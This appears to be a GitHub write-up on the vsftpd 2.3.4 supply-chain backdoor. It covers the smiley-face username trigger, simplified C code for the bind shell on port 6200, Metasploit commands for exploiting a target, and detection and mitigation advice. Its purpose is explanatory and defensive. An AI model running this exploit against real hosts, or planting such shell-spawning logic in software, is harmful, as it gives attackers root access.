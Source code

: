 # vsftpd 2.3.4 Backdoor Vulnerability

## Overview
The `vsftpd 2.3.4` backdoor vulnerability is a **deliberate backdoor** introduced into a **trojanized version** of the `vsftpd` (Very Secure FTP Daemon) source code. This backdoor was **not a coding mistake**, but a **malicious modification** uploaded to the main distribution server in July 2011.

When exploited, it results in a **root shell being spawned** on the affected system and **bound to TCP port 6200**.

---

## Root Cause
The vulnerability is not a buffer overflow or traditional code bug. It is a result of **malicious logic added to the vsftpd source code**.

The altered code checks for usernames that contain the smiley face `:)`. If this condition is met, a shell is spawned and a socket is opened on **TCP port 6200**.

### Malicious Code Logic (Simplified)
```c
if (strstr(user_input, ":)") != NULL) {
    int sock = socket(...);
    bind(sock, 6200);
    listen(sock, 1);
    ...
    dup2(client_fd, 0); dup2(client_fd, 1); dup2(client_fd, 2);
    execve("/bin/sh", ...);
}
```

---

## Exploitation Details

### Prerequisites
- Target is running the **backdoored version of vsftpd 2.3.4** (not the official source).
- Attacker has **network access** to the FTP port (usually 21).

### Exploit Behavior
1. The attacker connects to the FTP server and sends a **username** containing `:)`.
2. The server triggers the backdoor logic.
3. A **shell is spawned** and listens on TCP **port 6200**.
4. The attacker then connects to `port 6200` to gain **root access** to the system.

### Metasploit Module
Path: `exploit/unix/ftp/vsftpd_234_backdoor`

Usage:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target IP>
set RPORT 21
exploit
```

If successful:
```
[*] Backdoor service has been spawned, handling...
[*] Found shell.
[*] Command shell session opened...
```

---

## Detection & Analysis

### Manual Check
- Use `nmap` to identify vsftpd 2.3.4:
```bash
nmap -sV -p 21 <target>
```

- Use `Wireshark` to inspect outgoing connections from the victim to TCP port 6200.
Filter:
```
ip.addr == <victim_IP> && tcp.port == 6200
```

### Indicators of Compromise (IoC)
- Presence of `vsftpd 2.3.4` with checksum mismatch.
- Unexpected service listening on **port 6200**.
- Suspicious shell traffic over unusual ports.

---

## Mitigation
- Replace the `vsftpd` binary with a trusted version (e.g. from official package managers).
- Block outbound traffic to untrusted destinations (especially port 6200).
- Conduct forensic analysis if compromise is suspected.

---

## Summary
The `vsftpd 2.3.4` backdoor is a notorious example of **software supply chain compromise**. It emphasizes the need for:

- Verifying file integrity (checksums, GPG signatures)
- Monitoring for unusual port usage (e.g. TCP 6200)
- Avoiding unofficial or outdated software sources

This backdoor is **not a traditional vulnerability**. It is a stark reminder that trust in software distribution can be exploited maliciously.

